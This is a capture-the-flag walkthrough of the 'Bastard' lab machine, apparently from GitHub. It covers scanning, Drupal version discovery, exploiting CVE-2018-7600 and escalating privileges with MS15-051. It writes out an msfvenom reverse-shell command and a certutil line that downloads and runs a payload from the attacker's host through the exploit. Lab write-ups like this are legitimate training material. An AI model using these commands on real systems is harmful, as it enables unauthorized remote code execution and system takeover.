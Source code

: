 Bastard without metasploit

![Bastard](https://user-images.githubusercontent.com/55708909/91456087-7c893680-e8a0-11ea-997f-faea59304e45.png)


Starting with nmap scan

Nmap -sC -sV -T4 -A -O -oA Bastard -p- 10.10.10.9

![Bastard_nmap](https://user-images.githubusercontent.com/55708909/91456386-d25dde80-e8a0-11ea-9e88-015afaf89bc3.png)

Port 80 give us drupal i thought of running the other tool but ran gobuster. It gave me CHANGELOG.txt which gave me version number and 
thus i drop the idea of running droopescan


![Bastard_change](https://user-images.githubusercontent.com/55708909/91457435-fa9a0d00-e8a1-11ea-839b-546a8a84c1bb.png)

For this particular version there is a python exploit drupa7-CVE-2018-7600.py

Upload the shell using this python exploit, 

Step1:  msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LHOST=10.10.14.6 LPORT=4444 -f exe >> shell.exe

Step2:  Upload the shell.exe using this commands

python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c  "certutil.exe -urlcache -split -f http://10.10.14.6/shell1.exe  c:\Windows\Temp\shell1.exe"

Step3 : Execute the reverse shell using these commands

python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c  "c:\Windows\Temp\shell1.exe"

We have a shell here.

![Bastard_shell](https://user-images.githubusercontent.com/55708909/91519022-1e476c80-e90f-11ea-8238-428cbe0611ae.png)


After that i run systeminfo commands and put in in txt form and run windows-exploit-suggester and ran MS15-051 Kernel exploits and got 

Highest priviledges. 




